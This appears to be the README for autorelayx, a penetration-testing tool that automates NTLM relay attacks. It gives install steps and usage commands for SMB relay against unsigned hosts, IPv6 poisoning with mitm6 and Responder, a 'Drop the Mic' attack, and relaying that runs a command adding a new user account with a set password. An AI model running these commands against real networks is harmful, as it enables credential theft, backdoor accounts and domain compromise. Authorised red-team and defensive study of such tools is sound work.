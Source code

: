 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx
    cd autorelayx
    sudo pipenv install
    sudo pipenv shell

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l hostlist.txt```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. It is suggested to use the -d <domain> argument to limit mitm6's responses.

```python autorelayx.py -l hostlist.txt -6 -d CONTOSO```

## Relaying to single target and running a custom command once successful
```python autorelayx.py -t smb://dc01.local -c "net user /add danmcinerney P@ssword123456"```

## Drop the Mic attack
```python autorelayx.py -dc 1.2.3.4 -u LAB/dan:P@ssw0rd@exchangeServer.lab.local```

## PrivExchange


## To do
* add support for PrivExchange
* add tests